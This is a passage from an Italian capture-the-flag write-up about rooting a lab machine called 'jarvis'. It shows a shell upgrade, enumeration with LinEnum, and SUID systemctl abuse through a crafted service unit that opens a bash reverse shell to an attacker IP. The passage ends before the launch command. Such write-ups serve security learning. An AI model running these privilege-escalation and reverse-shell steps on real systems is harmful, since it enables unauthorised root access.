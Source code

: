 **Ottengo il primo flag!**

Ottengo una shell migliore con questo comando:

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ora devo trovare un modo per diventare root.

Per prima cosa, tramite un server http, trasferisco il file _LinEnum.sh_ sulla macchina _jarvis_ e lo eseguo.

Nell'output prodotto dello script, una delle parti più interessanti è quella relativa al SUID:

```text
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Jun 29  2022 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 Mar 17  2021 /bin/su
-rwsr-xr-x 1 root root 40312 Mar 17  2021 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 Mar 17  2021 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 Mar 17  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 Mar 17  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jan 23  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 Mar 17  2021 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper


[+] Possibly interesting SUID files:
-rwsr-x--- 1 root pepper 174520 Jun 29  2022 /bin/systemctl
```

Il file _/bin/systemctl_ può essere sfruttato per scalare i privilegi. Facendo delle ricerche trovo una guida molto interessante [qui](https://gtfobins.github.io/gtfobins/systemctl/).

Quindi, sulla mia macchina, creo il file _root.service_:

```text                                                             
[Unit]
Description=get root privilege

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/9696 0>&1'

[Install]
WantedBy=multi-user.target
```

Lo passo alla macchina _jarvis_ tramite server http e lancio il seguente comando:
